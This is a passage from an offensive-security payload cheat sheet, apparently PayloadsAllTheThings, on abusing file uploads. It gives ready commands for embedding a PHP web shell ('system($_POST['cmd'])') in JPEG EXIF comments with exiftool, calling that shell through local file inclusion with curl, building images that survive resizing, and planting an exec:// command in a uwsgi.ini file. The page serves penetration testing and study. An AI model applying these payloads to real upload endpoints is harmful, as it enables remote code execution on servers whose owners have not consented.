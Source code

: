 Also you upload:

* HTML/SVG files to trigger an XSS
* EICAR file to check the presence of an antivirus

## Picture Compression
Create valid pictures hosting PHP code. Upload the picture and use a Local File Inclusion to execute the code. The shell can be called with the following command
```bash
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

* Picture Metadata, hide the payload inside a comment tag in the metadata.
* Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating getimagesize() and imagecreatefromgif().
    * [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    * [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    * [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php


## Picture with custom metadata
Create a custom picture and insert exif tag with exiftool. A list of multiple exif tags can be found at exiv2.org
```bash
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

```

## Configuration Files
If you are trying to upload files to a :
* PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
* ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.
* uWSGI server, take a look at the uwsgi.ini trick to execute code:
```bash
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; call a function returning a char *
characters = @(call://uwsgi_func)

```
